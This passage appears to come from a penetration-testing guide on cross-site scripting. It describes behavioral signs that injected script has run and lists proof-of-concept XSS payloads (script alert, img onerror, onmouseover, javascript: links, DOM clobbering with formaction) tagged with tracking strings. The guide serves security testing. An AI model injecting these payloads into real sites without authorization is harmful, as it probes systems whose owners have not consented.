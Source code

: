   - **Input Reflected in JavaScript Comments (Less Common, but Possible):** *(In rare cases, if user input is reflected in HTML comments `` and those comments are *later* processed by client-side JavaScript in a vulnerable way (e.g., by parsing comments and using their content), it *could* potentially lead to XSS, though less direct.)*

- **Behavioral Clues (JavaScript Driven Actions):**
  
  - **Unexpected Redirects or Page Changes After Input:** *(If your input triggers an immediate redirect to an unexpected URL, or causes significant changes in the application's state or flow, it could be due to injected JavaScript altering the application's behavior.)*
  - **Network Requests Initiated by Your Input (Observed in DevTools "Network" tab):** *(If your injected payload causes the browser to make unexpected HTTP requests (e.g., to a different domain, or for unusual resources), this could indicate that your JavaScript is running and performing actions like exfiltrating data or communicating with an attacker's server. Check the "Network" tab in DevTools for unexpected outbound requests after injecting payloads.)*
  - **Changes to Cookies or Local Storage (Observed in DevTools "Application" tab):** *(If your injected JavaScript is able to manipulate cookies or local storage, you might see changes in the "Application" tab of DevTools after injecting payloads. This could be a sign of more advanced XSS impact.)*

# 4. Example payloads / testing techniques

- **a) Basic `alert()` Payload with Tracking:** `<script>alert('SynackSRT001XSS')</script>`
  
  - **Purpose:** Classic XSS test, now with "SynackSRT001XSS" in the alert message for easy searching in Burp/ZAP history.
  - **Technique:** Inject and search Burp/ZAP history for "SynackSRT001XSS" to confirm execution.

- **b) Variations of `alert()` (with Tracking):**
  
  - `<script>alert('SynackSRT002XSS - DOMAIN: ' + document.domain)</script>` _(Alerts domain with tracking)_
  - `<script>window.alert('SynackSRT003XSS')</script>` _(Alternative syntax with tracking)_
  - `<script>javascript:alert('SynackSRT004XSS')</script>` _(For `<a href="...">` with tracking)_

- **c) Image Tag with `onerror` (with Tracking):** `<img src="x" onerror="alert('SynackSRT005XSS')">`
  
  - **Purpose:** `onerror` XSS, with tracking string "SynackSRT005XSS".

- **d) Event Handler Attribute (`onmouseover` with Tracking):** `<div onmouseover="alert('SynackSRT006XSS')">Hover SynackSRT006XSS</div>`
  
  - **Purpose:** Event handler XSS, with visible "Hover SynackSRT006XSS" text and tracking in the alert. Making the tracking string visible on the page itself can also help with visual confirmation during testing.

- **e) Link Tag with JavaScript `href` (with Tracking):** `<a href="javascript:alert('SynackSRT007XSS')">Click SynackSRT007XSS</a>`
  
  - **Purpose:** `javascript:` href XSS, with visible "Click SynackSRT007XSS" link text and tracking in the alert.

- **f) DOM Clobbering + `formaction` (with Tracking):** `<form id=xssSynackSRT008><button formaction="javascript:alert('SynackSRT008XSS')">Click SynackSRT008XSS</button></form>`
  
  - **Purpose:** DOM clobbering XSS, with tracking in the `id`, button text, and alert. Using the tracking string in multiple parts of the payload increases chances of detection and confirmation.
